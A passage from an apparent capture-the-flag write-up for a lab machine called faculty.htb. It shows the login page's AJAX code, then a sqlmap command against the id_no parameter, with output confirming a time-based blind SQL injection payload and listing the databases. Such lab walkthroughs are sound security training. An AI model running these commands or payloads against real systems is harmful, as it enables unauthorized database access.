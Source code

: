 ```bash
/subjects.php         (Status: 200) [Size: 10278]                                       
/topbar.php           (Status: 200) [Size: 1201]
```

looking at the source code of login.php
```html
<script>
	$('#login-form').submit(function(e){
		e.preventDefault()
		$('#login-form button[type="button"]').attr('disabled',true).html('Logging in...');
		if($(this).find('.alert-danger').length > 0 )
			$(this).find('.alert-danger').remove();
		$.ajax({
			url:'admin/ajax.php?action=login_faculty',
			method:'POST',
			data:$(this).serialize(),
			error:err=>{
				console.log(err)
		$('#login-form button[type="button"]').removeAttr('disabled').html('Login');
			},
			success:function(resp){
				if(resp == 1){
					location.href ='index.php';
				}else{
					$('#login-form').prepend('<div class="alert alert-danger">ID Number is incorrect.</div>')
					$('#login-form button[type="button"]').removeAttr('disabled').html('Login');
				}
			}
		})
	})
</script>
```
Here we can see the webrequest is being sent to ajax.php and it is checking the id number in the request

There is a high possibility that a database server is running if there is a login page present in the web server, in this case it is worth it to test for sql injection.

Let's use sqlmap to see if the parameter id_no is vulnerable to sql injection:

`sqlmap -u "http://faculty.htb/admin/ajax.php?action=login_faculty" --data "id_no=0" --dbs `


result:
```bash
sqlmap identified the following injection point(s) with a total of 247 HTTP(s) requests:
---
Parameter: id_no (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id_no=0' AND (SELECT 3500 FROM (SELECT(SLEEP(5)))KGAE) AND 'jTdB'='jTdB
---


available databases [2]:
[*] information_schema
[*] scheduling_db

```
